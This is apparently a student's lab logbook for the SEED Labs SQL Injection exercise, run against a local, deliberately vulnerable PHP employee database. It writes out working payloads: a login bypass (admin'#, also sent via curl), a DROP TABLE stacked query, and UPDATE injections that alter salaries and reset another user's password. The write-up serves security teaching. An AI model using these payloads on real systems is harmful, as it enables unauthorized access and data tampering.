 # Trabalho realizado nas semanas 8 e 9

## Lab Setup

> The instructions in [SQL Injection](https://seedsecuritylabs.org/Labs_20.04/Files/Web_SQL_Injection/Web_SQL_Injection.pdf) should be followed. Below is a sumary.
>
> - The IP address for the web application container is10.9.0.5, and TheURL for the web application is http://www.seed-server.com
>
>   Map  this  hostname  to  the  container’s  IP  address using `sudo nano /etc/hosts` and writing `10.9.0.5        www.seed-server.com`
>
> - Container Setup and Commands
>
>   ```shell
>   docker-compose build 	# Build the container image
>   docker-compose up     # Start the container
>   docker-compose down   # Shut down the container
>     
>   # Aliases for the Compose commands above
>   dcbuild       # Alias for: docker-compose build
>   dcup          # Alias for: docker-compose up
>   dcdown        # Alias for: docker-compose down
>   ```
>
>   We first need to use the `docker ps` command to find out the ID ofthe container, and then use `docker exec` to start a shell on that container. We have created aliases forthem in the `.bashrcfile`.
>
>   ```shell
>   # dockps        # Alias for: docker ps --format "{{.ID}}  {{.Names}}"
>   #docksh <id>   // Alias for: docker exec -it <id> /bin/bash// The following example shows how to get a shell inside hostC
>   # Note: If a docker command requires a container ID, you do not need to
>   #       type the entire ID string. Typing the first few characters will
>   # 		be sufficient, as long as they are unique among all the containers.
>   [11/16/23]seed@VM:~/.../Labsetup$ dockps
>   8f69fd602305  mysql-10.9.0.6
>   43b38a0a6fb1  www-10.9.0.5
>   [11/16/23]seed@VM:~/.../Labsetup$ docksh 43
>   root@43b38a0a6fb1:/# 
>   ```



## Task 1

> Objective: Get Familiar with SQL Statements

Our database contains the table below.

![image-20231116093950217](Images/logbook8/image-20231116093950217.png)

The database when the container is taken down is saved to `/var/lib/mysql`.  To start from a clean database, you can remove this folder: `sudo rm -rf mysql_data`. 

For starters it was necessary to connect to the MySQL container and start a instance of the `mysql` client.

![image-20231116094914937](Images/logbook8/image-20231116094914937.png)

```shell
// Inside the MySQL container
# mysql -u root -pdees
```

```mysql
mysql> use sqllab_users;
Database changed
mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
```

As indicated in the Lab guide, we started by checking all the profile informationof the employee Alice.

![image-20231116094748558](Images/logbook8/image-20231116094748558.png)



## Task 2

The PHP code `unsafehome.php`, located in the `/var/www/SQL_Injectiondirectory`, is used to conduct the user authentication in our website http://www.seed-server.com/. The following code snippet show how users are authenticated.

```sql
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password
		FROM credential 
		WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);

-- The following is Pseudo Code
if(id != NULL) {
    if(name==’admin’) {
        return All employees information;
    } else if (name !=NULL){
        return employee information;
    }
} else {
	Authentication Fails;
}
```

***

### SQL Injection Attack from webpage

As can be seen the authentication is done using raw SQL statements obtained from our form through a GET request. The query used(`SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password FROM credential WHERE name= and Password=’$hashed_pwd’`) is not sanitized, meaning that by using the input `admin'#` the folowing check for the password is commented out. The server runs the following query:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password 
FROM credential 
WHERE name='admin' # and Password=’$hashed_pwd’
```

![image-20231116101345531](Images/logbook8/image-20231116101345531.png)

***

### SQL Injection Attack from command line

When running `curl 'www.seed-server.com/unsafe_home.php?username=alice&Password=11'`, we obtain:

![image-20231116102003638](Images/logbook8/image-20231116102003638.png)

> One thing that is worth mentioning is that if you want to include multiple parameters in HTTP requests, you need to put the URL and the parameters between a pair of single quotes; otherwise, the special characters used to separate parameters (such as &) will be interpreted by the shell program, changing the meaning of the command.
>
> If you need to include special characters in the *username* or *Password* fields, you need to encode them properly, or they can change the meaning of your requests. If you want to include single quote in those fields, you should use *%27* instead; if you want to include white space, you should use %20.  In this task,you do need to handle HTTP encoding while sending requests using curl.

Therefore, our injection attack from the command line should be done by running:

`curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password='`.

This will do the same SQL injection attack as described above.

***

### Append a new SQL statement

>  In SQL, semicolon (;) is used to separate two SQL statements. Please try to run two SQL statements via the login page.

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

When I attempt to replicate the attack, I receive the following error message.

```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'DROP TABLE IF EXISTS credentials; #' and Password='da39a3ee5e6b4b0d3255bfef95601' at line 3]\n
```

According to the *PHP* documentation found *online*, MySQL optionally allows having multiple statements in one statement string, but it requires special handling.  Multiple statements or multi queries must be executed   with [mysqli::multi_query()](https://www.php.net/manual/en/mysqli.multi-query.php). Typically, the databases have features that block the injection of multiple queries in order to prevent attacks.

More information on the topic can be found in [Multiple Statements](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), [OWASP]([OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)) and [mysqli::multi_query](https://www.php.net/manual/en/mysqli.multi-query.php). 



## Task 3

> Objective: SQL Injection Attack on UPDATE Statement
>
> When employees update their information through the Edit Profile page, the following SQL UPDATE query will be executed. The PHP code implemented in `unsafeeditbackend.php` file is used to up-date employee’s profile information. The PHP file is located in the `/var/www/SQLInjectiondirectory`.
>
> ```php
> $hashed_pwd = sha1($input_pwd);
> $sql = "UPDATE credential
> 	SET nickname=’$input_nickname’,
> 	email=’$input_email’,
> 	address=’$input_address’,
> 	Password=’$hashed_pwd’,
> 	PhoneNumber=’$input_phonenumber’
> WHERE ID=$id;";
> $conn->query($sql);
> ```

### Modify your own salary

Likewise, the queries used are once again unsafe and inappropriately managed. Therefore in a similar fashion to the attacks in Task 2, the update can be modified using `933667378',Salary='87000` in phone  number field of our form.

### Modify other people’ salary and modify other people’ password

The update can simply be done introducing in the same input field `912378',Salary='-9999999' WHERE Name='Boby'#`. This will comment out the previous WHERE and replacing it the custom one that we want to use for Alice's boss, Boby. 

To modify his password, we should use `912378', password='e812ba8d00b270ef3502bb53ceb31e8c5188f14e' WHERE name='Boby'#`. Here the password is changed to 'hacked' and introduced hashed in SHA1 format.

Below can be seen that both the salary change and the login with the new email are happening as expected.

![image-20231116114325492](Images/logbook8/image-20231116114325492.png)